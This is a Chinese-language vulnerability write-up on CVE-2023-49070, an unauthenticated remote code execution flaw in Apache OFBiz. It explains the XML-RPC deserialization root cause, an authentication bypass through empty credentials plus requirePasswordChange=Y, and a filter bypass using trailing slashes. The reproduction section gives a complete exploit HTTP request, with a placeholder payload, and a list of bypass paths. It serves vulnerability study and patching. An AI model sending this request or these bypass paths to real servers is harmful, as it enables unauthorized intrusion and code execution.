- [CVE-2023-49070 Apache OFbiz 远程代码执行](#cve-2023-49070-apache-ofbiz-远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [XML RPC 反序列化](#xml-rpc-反序列化)
    - [Bypass](#bypass)
      - [Auth Bypass](#auth-bypass)
      - [Filter Bypass](#filter-bypass)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-49070 Apache OFbiz 远程代码执行
## 影响版本
< 18.12.10
## 环境搭建
https://ofbiz.apache.org/download.html  

`gradlew loadAll ofbiz --debug-jvm` 启动调试  
测试版本： 18.12.09
## 漏洞原理
### XML RPC 反序列化
XML RPC反序列化主要是因为CVE-2020-9496漏洞，Apache OFbiz 有一个XML RPC EventHandler，位于`java/org/apache/ofbiz/webapp/event/XmlRpcEventHandler.java`，其使用的Apache XML RPC组件是存在反序列化漏洞的，如果XML数据中含有`<serializable>`标签，那么Apache XML RPC会对`<serializable>`标签数据进行b64解码然后进行反序列化。  
  
### Bypass
在针对CVE-2020-9496漏洞的修复过程中，一共修复了两次，第一次是为该接口添加了认证要求。  
  
然后第二次在cacheFilter中针对xmlrpc接口对POST内容做了`<serializable`标签关键字检查。  
  
而这两次的修复都可以被绕过，导致该反序列化接口仍然可以未授权访问，导致未授权的RCE。  
#### Auth Bypass
对于认证检查，问题主要出在其检查是否登录的逻辑中，对于webtools/control路径下方法调用的处理主要位于`org/apache/ofbiz/webapp/control/RequestHandler.java`中，其中会对请求的路由判断是否需要验证。  
  
如果需要验证，其会调用`java/org/apache/ofbiz/webapp/control/LoginWorker.java#checkLogin`方法进行检查是否登录，而我们则需要返回`success`。 
  
而该方法中想要最后返回`success`那么就不能执行到`return error`和`return impersonated`.对于返回error的条件其判断逻辑如下
  
主要有两个地方，首先username，password不能为null，然后`"error".equals(login(request, response))`语句必须为false.  
来到login方法中，其有一段代码逻辑导致了这次绕过。  
  
我们需要返回的内容不是error就行，也就是说只要`requirePasswordChange`变量为True，`unpwErrMsgList`不为空就可以返回`requirePasswordChange`.  
其中requirePasswordChange的值是将从请求中的requirePasswordChange变量和字符`Y`做比较，该值可控。  
而`!unpwErrMsgList.isEmpty()`的判断可以从前面几行代码看到unpwErrMsgList的生成过程,在这里使用了`UtilValidate.isEmpty`来判断username和password是否为空，其中的逻辑是如果为null或变量长度为0则判断为Empty。  
  
如果为空则会向unpwErrMsgList中添加错误信息，那么则可以满足`!unpwErrMsgList.isEmpty()`条件。  
也就是说我们只要传递一个`USERNAME=&PASSWORD=&requirePasswordChange=Y`的query即可满足其登录验证的所有条件，这样USERNAME和PASSWORD变量既满足了不为null的条件也满足了`UtilValidate.isEmpty`判断变量为Empty的条件。  
#### Filter Bypass
在Cache Filter中，主要逻辑由两部分，首先是判断uri是否是`/control/xmlrpc`,然后再判断请求中是否含有`</serializable`标签。
```java
        String context = ((HttpServletRequest) request).getContextPath();
        String uriWithContext = ((HttpServletRequest) request).getRequestURI();
        String uri = uriWithContext.substring(context.length());

        if ("/control/xmlrpc".equals(uri.toLowerCase())) {
            // Read request.getReader() as many time you need
            request = new RequestWrapper((HttpServletRequest) request);
            String body = request.getReader().lines().collect(Collectors.joining());
            if (body.contains("</serializable")) {
                Debug.logError("Content not authorised for security reason", "CacheFilter"); // Cf. OFBIZ-12332
                return;
            }
        }
```  
绕过的关键在于第一步中，其进行对比的uri来源于HttpServletRequest.getRequestURI,通过该种方式来判断请求的接口是否是/control/xmlrpc,但getRequestURI获取到的是请求的原始URI，并没有做归一处理，然而在RequestHandler中对请求路径和方法进行映射时的处理逻辑有一些小差异，解析URI对应的方法的逻辑位于`java/org/apache/ofbiz/webapp/control/RequestHandler.java#resolveURI`中。  
  
可以到看到寻找的逻辑就是通过getRequestUri方法获取到请求的uri然后在requestMapMap去寻找对应匹配的方法，而getRequestUri进行处理的路径是由`req.getPathInfo();`获取的，而pathInfo方法获取到的路径和getRequestURI获取到的路径是不一致的，然后在getRequestUri方法中获取URI的方式是将path根据`/`分隔然后返回第一个元素作为URI。  
  
那么我们传入`/xmlrpc`和`/xmlrpc/`(后面接任意数量的`/`都可以)那么其split之后的第一个元素都会是xmlrpc。所以对于该filter的绕过只需要在`/webtools/control/xmlrpc`路径后面加任意数量的`/`即可绕过对`/control/xmlrpc`路由关键字的检测但又不影响后续路由映射。 
  

## 漏洞复现 
```http
POST /webtools/control/xmlrpc//////?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Cookie: OFBiz.Visitor=10207
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/xml
Content-Length: 4125

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">b64</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
   
```
/webtools/control/xmlrpc/
/webtools/control/xmlrpc///;//;/
/webtools/control/xmlrpc;/
```

## 补丁
移除了XML-RPC组件相关代码。
## 参考
https://www.cnblogs.com/ph4nt0mer/p/13576739.html